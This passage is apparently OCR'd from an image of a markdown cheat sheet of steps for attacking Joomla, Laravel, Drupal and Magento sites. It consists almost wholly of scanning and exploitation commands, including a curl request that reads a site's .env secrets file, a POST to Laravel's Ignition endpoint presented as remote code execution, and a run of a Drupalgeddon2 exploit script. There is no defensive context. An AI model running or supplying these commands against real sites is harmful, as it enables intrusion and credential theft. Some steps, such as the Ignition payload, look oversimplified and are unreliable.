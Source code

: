
### **2️⃣ Joomla (Administrator Panel Exploit)**
👉 **Find Joomla Admin Panel:**
```bash
joomscan -u https://example.com
```
👉 **Exploit Vulnerabilities:**
```bash
searchsploit Joomla
```

---

### **3️⃣ Laravel (Debug Mode / RCE)**
👉 **Find Laravel Debug Mode Enabled:**
```bash
curl -X GET "https://example.com/.env"
```
👉 **Exploit RCE via Debug Mode:**
```bash
curl -X POST "https://example.com/_ignition/execute-solution" -d '{"solution": "phpinfo()"}'
```

---

### **4️⃣ Drupal (Admin Exploit)**
👉 **Check Drupal Version:**
```bash
droopescan scan drupal -u https://example.com
```
👉 **Drupal RCE (Drupalgeddon2 Exploit):**
```bash
python3 drupalgeddon2.py -u https://example.com
```

---

### **5️⃣ OpenCart / Magento**
- Use **Magento Scan**:  
  ```bash
  python3 magento_scan.py -u https://example.com
  ```
- Exploit **weak API endpoints**.

---
